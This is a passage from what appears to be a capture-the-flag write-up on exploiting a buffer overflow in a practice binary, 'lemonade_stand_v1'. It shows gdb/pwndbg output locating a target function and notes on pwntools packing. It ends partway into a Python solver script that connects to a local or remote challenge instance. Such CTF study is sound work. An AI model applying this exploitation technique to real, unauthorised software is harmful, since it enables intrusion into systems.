 ```gdb
Type "apropos word" to search for commands related to "word"...
pwndbg: loaded 141 pwndbg commands and 47 shell commands. Type pwndbg [--shell | --all] [filter] for a list.
pwndbg: created $rebase, $ida GDB functions (can be used with print/break)
Reading symbols from ./lemonade_stand_v1...(no debugging symbols found)...done.
------- tip of the day (disable with set show-tips off) -------
Pwndbg sets the SIGLARM, SIGBUS, SIGPIPE and SIGSEGV signals so they are not passed to the app; see info signals for full GDB signals configuration
pwndbg> print grapes
$1 = {<text variable, no debug info>} 0x4008cf <grapes>
pwndbg> p grapes
$2 = {<text variable, no debug info>} 0x4008cf <grapes>
```

We see that the address of `grapes` is `0x4008cf`.

Before that, we will learn a better way to connect with the remote instance and craft the payload easier and cleaner.

### Pwntools 🛠️

First of all, we need to install [pwntools](https://docs.pwntools.com/en/stable/install.html) We are going to use the [`ELF`](https://docs.pwntools.com/en/stable/elf/elf.html) module to get the address of `fireworks`. For packing, `pwntools` have a built-in function, [`p64()`](https://docs.pwntools.com/en/stable/util/packing.html). It is mainly used for packing integers. From the official page of pwntools:

> Module for packing and unpacking integers.
>
> Simplifies access to the standard struct.pack and struct.unpack functions, and also adds support for packing/unpacking arbitrary-width integers.
>
> The packers are all context-aware for endian and signed arguments, though they can be overridden in the parameters.

We know the overflow offset, there is no `PIE` or `Canary` and the address of `grapes` is known. The payload should look like this.

# Solution

```python
#!/usr/bin/python3.8
from pwn import *
import warnings
import os
warnings.filterwarnings('ignore')
context.arch = 'amd64'
context.log_level = 'critical'

fname = './lemonade_stand_v1' 

LOCAL = False

os.system('clear')

sla = lambda x,y : r.sendlineafter(x,y)

# Open local process or remote connection
if LOCAL:
  print('Running solver locally..\n')
  r    = process(fname)
else:
  IP   = str(sys.argv[1]) if len(sys.argv) >= 2 else '0.0.0.0'
  PORT = int(sys.argv[2]) if len(sys.argv) >= 3 else 1337
```